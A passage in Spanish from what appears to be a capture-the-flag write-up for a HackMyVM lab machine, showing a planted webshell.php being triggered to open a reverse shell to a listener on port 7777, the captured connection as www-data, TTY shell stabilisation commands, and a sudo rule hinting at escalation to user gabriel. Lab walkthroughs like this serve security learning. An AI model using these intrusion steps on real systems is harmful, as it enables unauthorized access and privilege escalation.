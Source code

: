 Vemos esa parte de ahi, si interpreta `PHP` pero solamente entrando por el dominio, no por la `IP` por lo que haremos lo siguiente:

```shell
nano /etc/hosts

#Dentro del nano
<IP>           lonelysoul.hmv
```

Ahora vamos a entrar por el `dominio` y directamente al archivo `PHP` que hemos creado, todo esto estando a la escucha.

```
URL = http://lonelysoul.hmv/webshell.php
```

Ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.12] 53274
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user gabriel

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on soul:
    (gabriel) NOPASSWD: /tmp/whoami
```
